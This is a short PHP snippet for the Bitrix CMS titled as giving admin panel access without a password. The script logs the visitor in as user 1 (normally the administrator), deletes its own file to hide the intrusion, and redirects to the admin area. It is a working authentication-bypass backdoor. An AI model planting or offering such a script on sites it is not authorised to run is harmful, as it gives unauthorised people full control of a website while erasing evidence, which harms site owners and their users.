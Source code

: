 # Bitrix admin panel without password
```php 
<?
require($_SERVER["DOCUMENT_ROOT"]."/bitrix/modules/main/include/prolog_before.php");
global $USER;
$USER->Authorize(1);
@unlink(__FILE__); // Delete file
LocalRedirect("/bitrix/admin/");
```